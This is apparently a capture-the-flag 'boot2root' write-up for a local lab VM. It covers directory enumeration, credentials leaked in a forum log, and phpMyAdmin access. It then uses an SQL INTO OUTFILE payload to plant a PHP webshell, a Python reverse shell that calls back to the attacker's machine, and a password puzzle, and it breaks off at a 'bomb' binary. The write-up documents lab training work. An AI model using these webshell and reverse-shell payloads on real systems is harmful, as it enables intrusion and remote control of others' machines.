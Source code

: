 # boot2root

## Getting code execution
I didnt had nmap installed at first so i went on checking common ports:
- 21 ftp
- 22 ssh
- 80 http
- 443 https

Could not login as anonymous to the ftp server.  
http returned a page with no info what so ever so i fired up gobuster and runned it:
```
$ gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://192.168.56.102
/forum                (Status: 403) [Size: 287]
/fonts                (Status: 301) [Size: 316] [--> http://192.168.56.102/fonts/]
/server-status        (Status: 403) [Size: 295]
$ gobuster dir -k -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u https://192.168.56.102
/forum                (Status: 301) [Size: 318] [--> https://192.168.56.102/forum/]
/webmail              (Status: 301) [Size: 320] [--> https://192.168.56.102/webmail/]
/phpmyadmin           (Status: 301) [Size: 323] [--> https://192.168.56.102/phpmyadmin/]
/server-status        (Status: 403) [Size: 296]
```

The /forum is a `my little forum` forum, we get many dummy post and what seems like a snippet of the machine syslog.  
As usual we get many unsucessful ssh login attempt etc... but one user managed to log in: lmezard (and admin).  
Right above we see an unsucessfull login attempt as user `!q\]Ej?*5K5cy*AJ` since the post originated from lmezard and is title `Probleme login ?` we deduced it's related to this unsucessfull login attempt.  
My guess is that the user inputed his password instead of his login and well it is the case since we are able to login with `lmezard/!q\]Ej?*5K5cy*AJ`.  
Going into the `my little forum` lmezard account we get an email wich we can use to login to the webmail server (same password) `laurie@borntosec.net/!q\]Ej?*5K5cy*AJ`  
On the server mail we get credentials wich we can use to login into the phpmyadmin website: `root/Fg-'kKXBj87E:aJ$`  
With phpmyadmin we can do an sql request to create a php file to get a webshell (into a reverse shell (didnt manage to get the reverse shell directly).  
Go to phpmyadmin, select `forum_db` database, click on sql, paste the following payload and click `Go`.  
```
SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\" VALUE=\"Send\"></FORM><pre><?php if($_GET['cmd']) {system($_GET[\'cmd\']);} ?> </pre></BODY></HTML>"
INTO OUTFILE '/var/www/forum/templates_c/webshell.php'
```

phpmyadmin directory seems readonly so i choose this directory that clearly seems writeable by it's content
Then we can access `https://192.168.56.102/forum/templates_c/webshell.php` and input command.  
A quick `python -c "print 'A'" confirmed me that python was installed and so we could do a reverse shell by pasting the following command and listening on port 8000 on our end:
```
$ export RHOST="192.168.56.1";export RPORT=8000;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
```
$ nc -lnvp 8000
```

As expected we are www-data and have now a shell.  
// The command execution part is now finished (there is a file in /home directory (/home/LOOKATME/password) wich contains lmezard creds (not working in ssh tho)

## Getting laurie

After upgrade to lmezard account on the server we are presented with a tar archive in the home directory wich contains many pcap file with very few bytes but on of the file contains 30+kbyte, we will use wireshark to analyze it.  
Seems like it's it's actually many C files which are splitted in every line, trying to compile the huge file we are missing 7 getmeX function.  
There are all splitted across the directory we can find them by searching for getmeX, catting the file, search for file + 1 and get the return statement, put it inside the big file, do this 7 times (or with a script) compile and run:  
```
$ ./a.out 
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit%
$ echo -n Iheartpwnage | sha256sum
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

We have now a new combination of user / password: `laurie/330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`

## Getting thor

Binary called bomb, let's decompile it (using gdb snif).  
1. "Public speaking is very easy."
2. 1 
